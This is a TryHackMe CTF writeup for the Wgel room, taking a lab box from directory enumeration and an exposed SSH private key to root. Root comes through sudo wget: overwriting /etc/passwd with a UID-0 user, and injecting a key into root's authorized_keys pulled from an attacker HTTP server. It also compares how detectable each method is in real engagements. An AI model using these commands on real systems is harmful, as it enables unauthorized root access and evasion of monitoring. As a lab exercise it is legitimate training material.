# TryHackMe — Wgel CTF Writeup

**Difficulty:** Easy
**Category:** Linux Privilege Escalation
**Author:** Poula Atef | 0xD33B

---

## 1. Reconnaissance

Started with an Nmap service/version scan to identify open ports and running services:

```bash
nmap -sC -sV 10.66.182.219
```

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-16 02:12 EDT
Nmap scan report for 10.66.182.219
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.93 seconds
```

Two open ports: SSH (22) and HTTP (80), the latter serving the default Apache2 landing page. Since nothing of interest was visible on the page itself, directory enumeration was the next step.

```bash
gobuster dir -u http://10.66.182.219 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```



The scan returned a `/sitemap` directory (Status: 301), which was enumerated further with a different wordlist:

```bash
gobuster dir -u http://10.66.182.219/sitemap -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```



This second scan revealed a `.ssh` directory (Status: 301) sitting directly under `/sitemap`, alongside the usual `css`, `fonts`, `images`, and `js` folders — an unusual and immediately interesting find, since `.ssh` directories are never meant to be web-accessible.

---

## 2. Initial Access — Exposed SSH Private Key

Browsing directly to the discovered path revealed a full RSA private key served as plaintext:

```
http://10.66.182.219/sitemap/.ssh/id_rsa
```



The key was saved locally, and after matching the correct username (`jessie`), the permissions were fixed and the key was used to authenticate directly:

```bash
chmod 600 id_rsa
ssh -i id_rsa jessie@10.66.182.219
```



Shell access as `jessie` was obtained — confirmed with `whoami`.

---

## 3. Privilege Escalation Enumeration

The first step after landing a shell was checking `sudo` permissions:

```bash
sudo -l
```



Result:

```
User jessie may run the following commands on CorpOne:
    (root) NOPASSWD: /usr/bin/wget
```

`jessie` can run `wget` as `root` with **no password required**. `wget` is a well-known [GTFOBins](https://gtfobins.github.io/gtfobins/wget/) binary — when granted `sudo` access, it can be abused to write arbitrary files anywhere on the filesystem as root, including critical system files.

As a baseline check, the existing `/etc/passwd` was reviewed:

```bash
cat /etc/passwd
```



> Both privilege escalation techniques below exploit **the exact same misconfiguration** — `sudo wget` with `NOPASSWD`. They are not alternative paths to try if one fails; they are two different ways of *using the same arbitrary-write primitive*, documented here together because the second is the better practice in a real-world/Blue-Team-aware context, as explained after Method 1.

---

## 4. Privilege Escalation — Method 1: Overwriting `/etc/passwd`

The idea: craft a local copy of `/etc/passwd` that includes a new user with **UID 0** (root privileges) and a known password hash, then use the `sudo wget` primitive to overwrite the real `/etc/passwd` on the target with this crafted version.

**Step 1 — Generate a password hash and append a root-equivalent user locally:**

```bash
echo 'hacker:$1$GCBakd5H$H2j5s2zzKcDX3GjGASWFk.:0:0:hacker:/root:/bin/bash' >> passwd
cat passwd | grep hacker
```



The hash was generated beforehand with `openssl passwd` (or `mkpasswd`), and the line follows the standard `/etc/passwd` format: `username:password_hash:UID:GID:comment:home:shell`. Setting both UID and GID to `0` makes `hacker` fully equivalent to `root`.

**Step 2 — Serve the crafted file over HTTP from the attacking machine:**

```bash
python3 -m http.server 8000
```


**Step 3 — On the target, overwrite `/etc/passwd` via the `sudo wget` primitive, then switch to the new user:**

```bash
sudo wget http://192.168.193.33:8000/passwd -O /etc/passwd
su hacker
```



Since `hacker` now has UID `0`, `su hacker` with the known password effectively grants a full root shell.

**Flags:**

```bash
cd /root
cat root_flag.txt
```



```bash
find / -name user_flag.txt 2>/dev/null
cat /home/jessie/Documents/user_flag.txt
```



Both flags retrieved. ✅

---

## 5. Privilege Escalation — Method 2: SSH Key Injection (Preferred Approach)

The same `sudo wget` arbitrary-write primitive was used again, this time to deploy an SSH public key into `root`'s `authorized_keys` instead of touching `/etc/passwd`.

**Step 1 — Generate a dedicated keypair on the attacking machine:**

```bash
ssh-keygen -t rsa -b 4096 -f /home/kali/Desktop/thm/rooms/wgel/ll/id_rsa
```



**Step 2 — Ensure `/root/.ssh/` exists before writing into it.** A direct `wget -O /root/.ssh/authorized_keys` was attempted first and failed with `Not a directory`, confirming the directory did not exist yet. `wget`'s `-P` flag was used instead, which creates the destination directory if missing:

```bash
sudo wget http://192.168.193.33:8000/id_rsa.pub -P /root/.ssh/
```



**Step 3 — Write the key to the correct filename, `authorized_keys`:**

```bash
sudo wget http://192.168.193.33:8000/id_rsa.pub -O /root/.ssh/authorized_keys
```



**Step 4 — Authenticate as root using the corresponding private key:**

```bash
ssh -i /home/kali/Desktop/thm/rooms/wgel/ll/id_rsa root@10.67.187.242
```



A full, stable root shell was obtained directly over SSH.

---

## 6. Why Method 2 Is the Better Practice

Both methods **achieve the identical end result** — full root access — through the identical misconfiguration (`sudo wget` NOPASSWD). They are not two separate vulnerabilities and not a "try this if that fails" pair; they are two *implementations* of the same arbitrary-write primitive. The difference between them is purely about **operational footprint**, which matters once this habit carries over into real engagements:

|               | Method 1 — `/etc/passwd` overwrite                                                                                                                                              | Method 2 — SSH key injection                                                                                                                                                        |
| ------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| File touched  | A core system identity file used by every authentication check on the box                                                                                                       | A single key file read only by `sshd`                                                                                                                                               |
| Blast radius  | Replaces the *entire* user database — any existing account definitions not preserved in the crafted file are lost                                                               | Adds one authentication method for one already-existing account (`root`)                                                                                                            |
| Detectability | Extremely high — any File Integrity Monitoring (AIDE, Wazuh, OSSEC, Tripwire) or basic auditd rule watching `/etc/passwd` fires immediately; a new UID-0 user is a textbook IOC | Still detectable (an unexpected write to `authorized_keys` should also be alerted on), but it doesn't corrupt a file every other system process relies on to resolve usernames/UIDs |
| Reversibility | Breaking the crafted file syntax, even slightly, can lock out or corrupt the entire login system                                                                                | Removing one line from `authorized_keys` fully reverts the change, nothing else is affected                                                                                         |

In a lab/CTF context both are equally valid and equally fun to practice — which is why this writeup documents both. But as a habit going into real Red Team or OSCP-style engagements, **Method 2 (SSH key injection) should be the default choice** whenever the write primitive allows it: it achieves the same privilege escalation with a far smaller footprint and without putting the entire authentication system at risk.

---

## Attack Chain

```
gobuster (root) → /sitemap
    → gobuster (/sitemap) → .ssh/ exposed over HTTP
    → id_rsa downloaded → chmod 600 → ssh as jessie
    → sudo -l → NOPASSWD: /usr/bin/wget
    → [Method 1] crafted /etc/passwd (UID 0 user) → wget overwrite → su → root
    → [Method 2] generated keypair → wget -P (create dir) → wget -O authorized_keys → ssh as root
    → root_flag.txt + user_flag.txt
```

---

## Tools Used

| Tool                | Purpose                                                   |
| ------------------- | --------------------------------------------------------- |
| nmap                | Port/service scanning                                     |
| gobuster            | Directory enumeration                                     |
| ssh / ssh-keygen    | Remote access, keypair generation                         |
| sudo -l             | Privilege enumeration                                     |
| wget                | Arbitrary file write (GTFOBins — `sudo` misconfiguration) |
| python3 http.server | Serving crafted files / payloads to the target            |
| openssl passwd      | Generating a crypt-compatible password hash               |

---

*Room: TryHackMe — Wgel CTF*
*Profile: tryhackme.com/p/0xD33B*
